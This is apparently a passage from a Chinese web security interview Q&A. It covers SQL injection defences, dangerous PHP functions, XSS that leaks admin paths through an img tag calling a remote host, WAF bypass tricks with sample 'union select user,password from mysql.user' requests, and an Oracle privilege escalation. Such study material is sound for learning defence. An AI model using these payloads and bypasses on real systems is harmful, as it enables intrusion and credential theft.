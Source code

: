 #### ✸ 54.SQL 注入防护方法？  
    (1)使用安全的 API  </br>
    (2)对输入的特殊字符进行 Escape 转义处理  </br>
    (3)使用白名单来规范化输入验证方法  </br>
    (4)对客户端输入进行控制，不允许输入 SQL 注入相关的特殊字符  </br>
    (5)服务器端在提交数据库进行 SQL 查询之前，对特殊字符进行过滤、转义、替换、删除。  </br>

#### ✸ 55.代码执行，文件读取，命令执行的函数都有哪些？  
      (1)代码执行： </br>
eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function  </br>
      (2)文件读取 ：file_get_contents(),highlight_file(),fopen(),readfile(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等 </br> 
      (3)命令执行：system(), exec(), shell_exec(), passthru() ,pcntl_exec(),  popen(),proc_open() </br> 

#### ✸ 56.img 标签除了 onerror 属性外，还有其他获取管理员路径的办法吗？  
    src 指定一个远程的脚本文件，获取 referer  

#### ✸ 57.img 标签除了 onerror 属性外，并且 src 属性的后缀名，必须以.jpg 结尾， 怎么获取管理员路径?  
    1,远程服务器修改 apache 配置文件，配置.jpg 文件以 php 方式来解析  </br>
    AddType application/x-httpd-php .jpg  </br>
     <img src=http://xss.tv/1.jpg&gt;  会以 php 方式来解析  </br>

#### ✸ 58.怎么绕过 WAF 注入和上传以及 xss ？  
    (1)关键字可以用% （只限IIS 系列），比如 select 可以 sel%e%ct。</br>
原理：网络层 waf 对 SEL%E%CT 进行 url 解码后变成 SEL%E%CT ，匹配select 失败，而进入 asp.dll 对 SEL%E%CT 进行 url 解码却变成 select。IIS 下的 asp.dll 文件在对 asp 文件后参数串进行 url 解码时，会直接过滤掉 09-0d （09 是 tab 键,0d是回车）、20 （空格）、%(后两个字符有一个不是十六进制)字符。xss 也是同理。  </br>
   (2)内联注释。安全狗不拦截，但是安全宝、加速乐、D 盾等，看到/ !/就 Fack了，所以只限于安全狗。比如：/ !select*/  </br>
   (3)编码。这个方法对 waf 很有效果，因为一般 waf 会解码，但是我们利用这个特点，进行两次编码，他解了第一次但不会解第二次，就 bypass 了。腾讯waf、百度 waf 等等都可以这样 bypass 的</br>  
   (4)绕过策略如：伪造搜索引擎早些版本的安全狗是有这个漏洞的，就是把 User-Agent 修改为搜索引擎  </br>
   (5)插入关键目录 admin,dede,install 等目录绕过 360webscan 360webscan 脚本存在这个问题，就是判断是否为 admin dede install 等目录，如果是则不做拦截  </br>
    GET /pen/news.php?id=1 union select user,password from mysql.user  </br>
    GET /pen/news.php/admin?id=1 union select user,password from mysql.user  </br>
    GET /pen/admin/..\ news.php?id=1 union select user,password from mysql.user  </br>
  (6)multipart 请求绕过，在 POST 请求中添加一个上传文件，绕过了绝大多数WAF。  </br>
  (7)参数绕过，复制参数，id=1&id=1 用一些特殊字符代替空格，比如在 mysql 中%0a 是换行，可以代替空格，这个方法也可以部分绕过最新版本的安全狗，在 sqlserver 中可以用/**/代替空格</br>  
  (8)内联注释，文件上传，复制文件包一份再加一份在  form-data;后面增加一定的字符  </br></br>

#### ✸ 59.既然宽字节注入可以绕过单引号过滤，那么怎么来修复呢？  
宽字符：解决方法：就是在初始化连接和字符集之后，使用 SET character_set_client=binary 来设定客户端的字符集是二进制的。修改Windows 下的 MySQL 配置文件一般是  my.ini ，Linux 下的 MySQL 配置文件一般是 my.cnf ，比如：mysql_query("SETcharacter_set_client=binary");。 </br>
character_set_client 指定的是 SQL 语句的编码，如果设置为  binary ，MySQL就以二进制来执行，这样宽字节编码问题就没有用武之地了。  </br>
详细参考 ：  </br>
http://wenku.baidu.com/link?url=F4Cq18NYdsnATq3eqtr3zCWLKExoEYV62yJp5zsfM5c85iv4rldTvl1A_SGilEAiWB_O_hg0C9A8VLoIT4K_HxyyF0Z7xo5Pihh1VxxYa4QGiXQ_wGDjiOFHubYvshgl </br> 

#### ✸ 60.列举出 oracle 注入获取管理员权限提权典型漏洞？  
 【漏洞名称】  sys.dbms_export_extension.get_domain_index_metadata  提升权限漏洞  </br>
 【影响平台】Oracle 8i / 9i / 10g / XE  </br>
 【风险等级】高【攻击需求】较低权限账号  </br>
 【造成危害】取得管理员权限  </br>
